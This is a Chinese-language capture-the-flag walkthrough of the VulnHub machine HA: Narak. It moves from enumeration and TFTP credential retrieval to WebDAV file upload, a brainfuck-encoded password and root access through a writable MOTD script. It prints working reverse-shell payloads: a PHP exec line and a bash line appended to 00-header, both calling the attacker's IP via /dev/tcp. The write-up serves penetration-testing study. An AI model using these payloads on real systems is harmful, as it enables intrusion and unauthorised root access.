

靶机下载地址：https://www.vulnhub.com/entry/ha-narak,569/

## Web渗透

信息收集只有80和22端口

目录扫描

```bash
gobuster dir -u http://172.16.31.11 -w /usr/share/dirbuster/wordlists/director-list-2.3-medium.txt
```


/imaegs目录下就是默认首页展示的图片


/webdav，访问这个目录，发现需要认证，看来很可能这里就是个突破口


server-status目录没有太多信息：

、

 现在我们的核心思路应该就是寻找websav目录的凭据了。还有哪里我们没有寻找呢？此处想到了vulnhub页面的提示，“枚举”是关键。在使用gobuser进行爆破时，我们仅仅爆破了目录，没有对文件进行爆破，说不定一些关键文件就藏在其中，因此我们再次进行爆破，使用-x参数添加一些后缀名，包含可能的文件，比如rar/zip/txt/php/sql/html等等：
```bash
gobuster dir -u http://172.16.31.11 -x zip,rar,txt,sql,php,html -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```


感觉最大的收获就是发现了tips.txt（index.html就是初始页面），


提示我们通往narak的门的线索可以在creds.txt找到，那么问题来了，creds.txt在哪里？难道也是在web目录可以直接访问的吗？

## tftp渗透

我记得vulnhub的页面对于这个靶机的描述中有这样一句话： 燃烧的墙壁和恶魔无处不在，即使你最信任的工具也会在这次任务中背叛你。不要相信任何人。截至目前，我们用到了哪些工具呢？用nmap进行了主机发现和端口扫描，用gobuster进行了目录爆破。那会不会是我们被工具“背叛”了呢？莫非实际的结果并不是工具显示的那样？先说gobuster，我们进行web目录爆破可以用很多工具，其实没有本质区别，关键还是字典的问题，因此应该不是爆破工具的问题。莫非是nmap端口扫描的结果有误或者遗漏了什么？比如有可能遗漏了某些开放的UDP端口。（这段话是我看了红队笔记视频，自己再回想的时候想到的）

---

当初端口扫描的时候显示没有任何开放的UDP端口，这里重新扫描一下，也是同样的结果。我们干脆尝试探测常见的UDP端口是否开放吧，先尝试``top10`常用的UDP端口：

```bash
nmap -sU --top-ports 10 172.16.31.11
```


确实，比如什么161,1434端口都是有可能开放的，但这些端口应该与我们要寻找creds.txt无关，再试试top20端口：

```bash
 nmap -sU --top-ports 20 172.16.31.11
```


 nice，我们发现了tftp端口69，这是一个简单文件传输协议，用来在客户端和服务端进行文件传输，这个协议设计的时候是进行小文件传输的。因此它不具备通常的FTP的许多功能，它只能从文件服务器上获得或写入文件，不能列出目录，有兴趣的读者可以网上查查资料。下图源于百度百科：


 既然如此，那我们试试能不能用tftp协议，从靶机服务器把creds.txt下载下来，直接用tftp后接靶机地址即可连接靶机：

```
tftp 172.16.31.11


get creds.txt

```


查看`creds.txt`，貌似是个base64编码，我们解码一下：


> yamdoot:Swarg 

成功拿到了凭据，这很可能是最初webdav目录的访问凭据！

## webdav利用

回到webdav页面：输入用户名yamdoot，密码Swarg，可以进入到如下的页面


 这个页面也没啥东西呀？此时就涉及到对webdav的了解了，webdav是一个基于HTTP1.1的通信新协议，允许客户端发布、锁定和管理 Web 上的资源，那么我们现在就是企图获取webdav的权限，据此拿到初始shell。


此时kali中有许多工具可以充当webdav的客户端，其中有一个工具davtest，可以测试通过webdav能上传哪些后缀文件以及其对应权限：

```bash
davtest -url http://172.16.31.11/webdav -auth yamdoot:Swarg 
```

可以看到上传的文件类型如下：


基本上都可以上传，再看一下执行权限：


发现是可以执行php文件的，因此我们可以尝试上传php类型的反弹shell，先编写一个shell.php，注意要写kali的ip：

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/172.16.31.10/1234 0>&1'"); ?>
```


 然后再利用一个客户端。把shell.php上传，此处使用的webdav客户端是cadaver：

```bash
cadaver http://172.16.31.11/webdav
输入用户名和密码(yamdoot:Swarg)
put shell.php
```


回到浏览器，可以看到我们上传的shell，那个DavTestDir_是我们刚刚用``testdav`工具尝试上传的目录：


此时我们开启nc监听1234端口，然后访问shell.php，即可触发反弹shell 


## 寻找敏感文件初步提权

此时我们拿到了www-data的shell，通常我会sudo -l查看有什么可以利用的二进制文件，先用python3增强交互性后运行sudo -l结果显示需要密码：

```python
python3 -c "import pty;pty.spawn('/bin/bash')"
```

下一步就是可以查看计划任务、备份文件、suid的文件、可写文件等，总之寻找有没有一些ssh登录的凭据或是可以利用的提权文件：最终通过查找可写的文件发现了一些端倪：

```bash
find / -writable -type f -not -path "/proc/*" -not -path "/sys/*" -not -path "/var/*" 2>/dev/null
```


发现了一个可编辑的bash脚本hell.sh，还有一个users.password，除此之外还有一些update-motd.d下的文件，查看这个user.password，如下：


### brainfuck

看来就是webdav的登录凭据，应该不是我们要找的ssh凭据。那查看hell.sh：


>  --[----->+<]>---.+++++.+.+++++++++++.--.+++[->+++<]>++.++++++.--[--->+<]>--.-----.++++.

有CTF的经验就可以知道，这是一种名为brainfuck的编程语言！


可是咱也不太懂这个语言，可以用beef工具进行解释，首先将brainfuck的字符存为一个文件hell.bf，然后用beef解释器翻译一下：

```
beef hell.bf
```


> chitragupt 

这很可能是ssh的一个密码，那么是哪个用户名呢？我们可以查看/etc/passwd，寻找哪些账户有shell环境：



可以发现重点就是narak,yamdoot,inferno三个用户，依次尝试一下就可以发现chitragupt是用户inferno的ssh密码：

```
ssh inferno@172.16.31.11
```


## motd利用提权

此时我们拿到了inferno的权限，先查看当前目录有啥：


拿到了第一个flag即user.txt。下面的目标就是提权到root了。sudo -l也是此路不通


因此接下来有两种大致思路，其一，和刚才类似，继续寻找高权限的凭据，也就是root的ssh凭据，其二：利用一些root高权限的工具/可执行文件/脚本等实现提权。同样，一番搜索之后，最终发现了一些能够利用的具有可写权限的文件：

```
find / -writable -type f -not -path "/proc/*" -not -path "/sys/*" -not -path "/var/*" 2>/dev/null
```


重点关注motd相关的文件，我们进入/etc/update-motd.d/，然后查看相关文件的权限：


MOTD（Message of the Day）是Linux系统登录时显示的一段信息，我们要重点关注00-header，这是linux在登录时会运行的显示欢迎信息的脚本，可以发现这个就脚本的所有者和所在组都是root，且此时inferno用户拥有对该文件的写权限，因此我们只要在这个文件中添加反弹shell的代码，当该脚本执行时即可触发反弹shell，我们先查看一下这个文档：


通过echo追加的方式，在其中添加反弹shell代码：

```bash
echo "bash -c 'bash -i >& /dev/tcp/172.16.31.10/4444 0>&1'" >> 00-header
```


在kali中nc监听4444端口

重新ssh登录inferno用户触发00-header脚本执行，从而触发反弹shell，又由于运行这个脚本时是具有root权限的，成功触发了反弹shell，且反弹的是root的shell，也就是提权成功了！


## 总结

打这个靶机感觉还挺有收获的，主要是有一些先前不了解的知识点。比如tftp协议的使用、dav工具的使用、brainfuck语句和motd脚本提权等等。回看vulnhub对于靶机的描述：

> Narak在印度相当于地狱。你和地狱之主一起在深渊里。你能用你的hacking技能逃出Narak吗?燃烧的墙壁和恶魔无处不在，即使你最信任的工具也会在这次任务中背叛你。不要相信任何人。只要记住逃离Narak的终极咒语“枚举”。在取得root之后，你会同意“地狱是个不错的地方”。

 还挺有感触的哈。我们被信任的工具nmap背叛了，nmap原以为没有UDP端口开放的，结果最后发现了tftp的69端口，这才有了寻找creds.txt的思路。 同时我们也通过不断的枚举找到了tips.txt，提示我们去寻找creds.txt。不过我并不认为“地狱是个不错的地方”，或许我们可以通过靶机这个地狱学习渗透的知识吧，哈哈。最后还是总结一下打靶的思路：

1. 主机发现和端口扫描：常规思路，发现22和80端口，应该要从web入手。起初并未发现UDP端口。

2. Web渗透：目录爆破发现关键目录webdav，但访问需要凭据。文件爆破找到关键文件tips.txt，提示我们去寻找creds.txt

3. tftp渗透：回头再去寻找UDP端口，发现tftp端口可能开放，尝试利用这个协议读取creds.txt，下载成功，成功访问webdav。

4. webdav利用获取初始立足点：webdav貌似是个空目录，但它其实是一个基于HTTP1.1的通信新协议，允许客户端发布、锁定和管理 Web 上的资源。使用davtest测试webdav可以上传和执行哪些文件，发现可以上传并执行php，利用cadaver客户端上传反弹shell的php文件并访问shell.php，成功反弹了www-data的shell，获得了初始立足点。

5. 寻找敏感文件初步提权，尝试查看sudo权限文件、计划任务、备份文件、suid的文件、可写文件等，最后在可写文件中发现了一个hell.sh，其中有一段brainfuck代码，用beef工具解码得到了一串字符，经尝试发现是用户名inferno的ssh密码。

6. motd利用提权：利用对00-header文件的可写权限，这是linux在登录时会运行的显示欢迎信息的脚本，在这个文件中添加反弹shell的代码，当该脚本执行时（再次登录ssh时）即可触发反弹shell。